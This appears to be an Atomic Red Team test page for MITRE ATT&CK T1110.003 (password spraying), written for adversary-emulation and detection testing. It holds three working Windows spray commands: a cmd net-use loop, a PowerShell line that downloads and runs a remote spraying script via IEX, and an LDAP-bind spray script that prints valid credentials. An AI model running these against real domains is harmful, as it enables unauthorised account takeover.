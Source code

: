 # T1110.003 - Password Spraying
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1110/003)
<blockquote>Adversaries may use a single or small list of commonly used passwords against many different accounts to attempt to acquire valid account credentials. Password spraying uses one password (e.g. 'Password01'), or a small list of commonly used passwords, that may match the complexity policy of the domain. Logins are attempted with that password against many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)

Typically, management services over commonly used ports are used when password spraying. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)

In addition to management services, adversaries may "target single sign-on (SSO) and cloud-based applications utilizing federated authentication protocols," as well as externally facing email applications, such as Office 365.(Citation: US-CERT TA18-068A 2018)

In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Password Spray all Domain Users](#atomic-test-1---password-spray-all-domain-users)

- [Atomic Test #2 - Password Spray (DomainPasswordSpray)](#atomic-test-2---password-spray-domainpasswordspray)

- [Atomic Test #3 - Password spray all domain users with a single password via LDAP against domain controller (NTLM or Kerberos)](#atomic-test-3---password-spray-all-domain-users-with-a-single-password-via-ldap-against-domain-controller-ntlm-or-kerberos)


<br/>

## Atomic Test #1 - Password Spray all Domain Users
CAUTION! Be very careful to not exceed the password lockout threshold for users in the domain by running this test too frequently.
This atomic attempts to map the IPC$ share on one of the Domain Controllers using a password of Spring2020 for each user in the %temp%\users.txt list. Any successful authentications will be printed to the screen with a message like "[*] username:password", whereas a failed auth will simply print a period. Use the input arguments to specify your own password to use for the password spray.
Use the get_prereq_command's to create a list of all domain users in the temp directory called users.txt.
See the "Windows FOR Loop Password Spraying Made Easy" blog by @OrOneEqualsOne for more details on how these spray commands work. https://medium.com/walmartlabs/windows-for-loop-password-spraying-made-easy-c8cd4ebb86b5

**Supported Platforms:** Windows


**auto_generated_guid:** 90bc2e54-6c84-47a5-9439-0a2a92b4b175





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | The password to try for each user in users.txt | string | Spring2020|


#### Attack Commands: Run with `command_prompt`! 


```cmd
@FOR /F %n in (%temp%\users.txt) do @echo | set/p=. & @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "#{password}" 1>NUL 2>&1 && @echo [*] %n:#{password} && @net use /delete %logonserver%\IPC$ > NUL
```




#### Dependencies:  Run with `command_prompt`!
##### Description: List of domain users to password spray must exits at %temp%\users.txt
##### Check Prereq Commands:
```cmd
if not exist %temp%\users.txt (exit /b 1)
```
##### Get Prereq Commands:
```cmd
PathToAtomicsFolder\T1110.003\src\parse_net_users.bat
```




<br/>
<br/>

## Atomic Test #2 - Password Spray (DomainPasswordSpray)
Perform a domain password spray using the DomainPasswordSpray tool. It will try a single password against all users in the domain

https://github.com/dafthack/DomainPasswordSpray

**Supported Platforms:** Windows


**auto_generated_guid:** 263ae743-515f-4786-ac7d-41ef3a0d4b2b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Domain to brute force against | String | (Get-ADDomain | Select-Object -ExpandProperty Name)|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/94cb72506b9e2768196c8b6a4b7af63cebc47d88/DomainPasswordSpray.ps1' -UseBasicParsing); Invoke-DomainPasswordSpray -Password Spring2017 -Domain #{domain} -Force
```






<br/>
<br/>

## Atomic Test #3 - Password spray all domain users with a single password via LDAP against domain controller (NTLM or Kerberos)
Attempt to brute force all domain user with a single password (called "password spraying") on a domain controller, via LDAP, with NTLM or Kerberos

Prerequisite: AD RSAT PowerShell module is needed and it must run under a domain user (to fetch the list of all domain users)

**Supported Platforms:** Windows


**auto_generated_guid:** f14d956a-5b6e-4a93-847f-0c415142f07d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | single password we will attempt to auth with (if you need several passwords, then it is a bruteforce so see T1110.001) | String | P@ssw0rd!|
| domain | Domain FQDN | String | contoso.com|
| auth | authentication method to choose between "NTLM" and "Kerberos" | string | NTLM|


#### Attack Commands: Run with `powershell`! 


```powershell
if ("#{auth}".ToLower() -NotIn @("ntlm","kerberos")) {
  Write-Host "Only 'NTLM' and 'Kerberos' auth methods are supported"
  exit 1
}

$DomainUsers = Get-ADUser -LDAPFilter '(&(sAMAccountType=805306368)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' -Server #{domain} | Select-Object -ExpandProperty SamAccountName

[System.Reflection.Assembly]::LoadWithPartialName("System.DirectoryServices.Protocols") | Out-Null
$di = new-object System.DirectoryServices.Protocols.LdapDirectoryIdentifier("#{domain}",389)

$DomainUsers | Foreach-Object {
  $user = $_
  $password = "#{password}"

  $credz = new-object System.Net.NetworkCredential($user, $password, "#{domain}")
  $conn = new-object System.DirectoryServices.Protocols.LdapConnection($di, $credz, [System.DirectoryServices.Protocols.AuthType]::#{auth})
  try {
    Write-Host " [-] Attempting ${password} on account ${user}."
    $conn.bind()
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] ${user}:${password} are valid credentials!"
  } catch {
    Write-Host $_.Exception.Message
  }
}
Write-Host "End of password spraying"
```






<br/>
